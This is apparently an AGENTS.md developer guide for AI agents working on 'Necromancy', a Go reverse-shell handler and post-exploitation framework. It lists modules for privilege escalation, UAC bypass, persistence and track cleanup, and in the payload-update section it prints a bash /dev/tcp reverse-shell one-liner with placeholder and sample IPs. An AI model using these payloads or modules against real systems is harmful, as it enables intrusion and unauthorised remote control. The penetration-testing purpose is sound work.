



# 🤖 AGENTS.md - AI Agent Documentation for Necromancy

## 📋 Overview

This document provides comprehensive information for AI agents working with the Necromancy codebase. It contains technical details, architecture information, and development guidelines to ensure effective assistance.

## 🏗️ Project Architecture

### Core Components

```
necromancy/
├── core/           # Core functionality (sessions, networking)
├── modules/        # Post-exploitation modules
├── ui/            # Terminal user interface (tview-based)
├── utils/         # Utility functions (formatting, colors)
├── server/        # HTTP file server
├── pty/           # PTY upgrade functionality
├── ascii.txt      # Custom ASCII banner (BBCode format)
└── main.go        # Application entry point
```

### Key Dependencies
- **tview**: Terminal UI framework
- **golang.org/x/term**: Terminal utilities
- **tcell**: Terminal control library

## 🎯 Core Functionality

### Session Management (`core/`)
- **Session**: Represents individual reverse shell connections
- **SessionManager**: Manages multiple sessions concurrently
- **SessionType**: Enum for session types (PTY, Basic, Bind)

### Module System (`modules/`)
- **Module Interface**: Standard interface for all post-exploitation modules
- **ModuleManager**: Registry and execution manager for modules
- **Built-in Modules**: 13+ modules including PEASS, tunneling, escalation

### Available Modules

| Module | Description | Platform | Category |
|--------|-------------|----------|----------|
| **PEASS** | Privilege escalation awesome scripts suite | Linux/Windows | 🎯 Enumeration |
| **Linux Exploit Suggester** | Automated exploit recommendations | Linux | ⚡ Exploitation |
| **LSE** | Linux smart enumeration tool | Linux | 🎯 Enumeration |
| **Potato Exploits** | Windows privilege escalation methods | Windows | 🔑 Privilege Escalation |
| **Chisel** | Fast TCP/UDP tunnel over HTTP | Multi | 🚇 Tunneling |
| **Ligolo** | Reverse proxy for penetration testing | Multi | 🚇 Tunneling |
| **Ngrok** | Secure tunnel to localhost | Multi | 🚇 Tunneling |
| **Meterpreter** | Upgrade to Metasploit sessions | Multi | 🚀 Session Upgrade |
| **Cleanup** | Remove tracks and artifacts | Multi | 🧹 Cleanup |
| **Traitor** | Automated Linux privilege escalation | Linux | 🔑 Privilege Escalation |
| **UAC Bypass** | Windows UAC bypass techniques | Windows | 🔑 Privilege Escalation |
| **Panix** | Linux persistence via systemd | Linux | 🕰️ Persistence |
| **Memory Dump** | Process memory analysis | Linux | 🧠 Forensics |

### UI System (`ui/`)
- **App**: Main application controller
- **Menu System**: Interactive menu with keyboard shortcuts
- **Session Browser**: Visual session management
- **Module Browser**: Module discovery and execution

## 🎨 ASCII Banner System

### BBCode Color Support
```bbcode
[color=#FF0000]Red Text[/color]
[color=#00FF00]Green Text[/color]
[color=#0000FF]Blue Text[/color]
```

### Color Conversion
- BBCode colors → ANSI escape codes
- Hex colors → Terminal 256-color palette
- Fallback to basic colors for compatibility

## 🌍 Multi-Platform Support

### Platform Matrix
- **Linux**: amd64, arm64
- **macOS**: amd64 (Intel), arm64 (Apple Silicon)
- **Windows**: amd64

## 🚀 Command Line Interface

### Installation via Go
```bash
# Install latest version
go install github.com/Aryma-f4/necromancy@latest

# Install specific version
go install github.com/Aryma-f4/necromancy@v1.2.0

# Build with version info
go build -ldflags="-s -w -X main.Version=v1.2.0 -X main.BuildDate=$(date -u +%Y-%m-%d)" -o necromancy .
```

### Basic Usage
```bash
./necromancy -p 4444                    # Single port
./necromancy -p 4444,4445,4446        # Multiple ports
./necromancy -c target.com -p 4444    # Connect to bind shell
./necromancy -s /path/to/files -w 8000   # HTTP file server
```

## 📊 Use Cases

### Basic Reverse Shell Workflow


### File Manager Operations


### Network Information Flow & Payload Updates


### Payload Updates Feature Explanation

The **Payload Updates** feature automatically updates generated payloads with real network information:

1. **IP Detection**: Automatically detects local and public IP addresses
2. **Port Configuration**: Uses configured listening ports instead of defaults
3. **Template Replacement**: Replaces `YOUR_IP` with actual IP addresses
4. **Multi-IP Support**: Prefers public IP when available, falls back to local IP
5. **Real-time Updates**: Payloads refresh when network information changes

#### Example Update Process:
```bash
# Before update (Template):
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# After update (with public IP):
bash -i >& /dev/tcp/203.0.113.45/4444 0>&1

# After update (with local IP only):
bash -i >& /dev/tcp/192.168.1.50/4444 0>&1
```

#### Supported Payload Types (Auto-Updated):
- **🐚 Bash**: Traditional bash reverse shell
- **🐍 Python**: Python with PTY support for full TTY
- **🕸️ Netcat**: FIFO-based netcat reverse shell
- **💎 PowerShell**: Windows PowerShell reverse shell
- **🐘 PHP**: PHP reverse shell for web servers
- **💎 Ruby**: Ruby reverse shell
- **🐪 Perl**: Perl reverse shell
```

## 🐛 Common Issues & Solutions

### Build Issues
- **Windows SIGWINCH**: Use build constraints
- **Missing dependencies**: Check go.mod
- **Cross-compilation**: Use proper GOOS/GOARCH

### Runtime Issues
- **Banner not displaying**: Check ascii.txt permissions
- **Sessions not connecting**: Verify network configuration
- **Modules not loading**: Check module registration

## 📝 Code Style Guidelines

### Go Conventions
- Follow standard Go formatting
- Use meaningful variable names
- Handle errors properly

### Module Development
- Use descriptive names
- Provide clear descriptions
- Include error handling
- Test thoroughly

## 🔄 Version Control

### Current Version
- **Version**: 1.2.0
- **Repository**: https://github.com/Aryma-f4/necromancy
- **License**: MIT

---

**Last Updated**: 2026-04-23  
**Version**: 1.2.0  
**Repository**: https://github.com/Aryma-f4/necromancy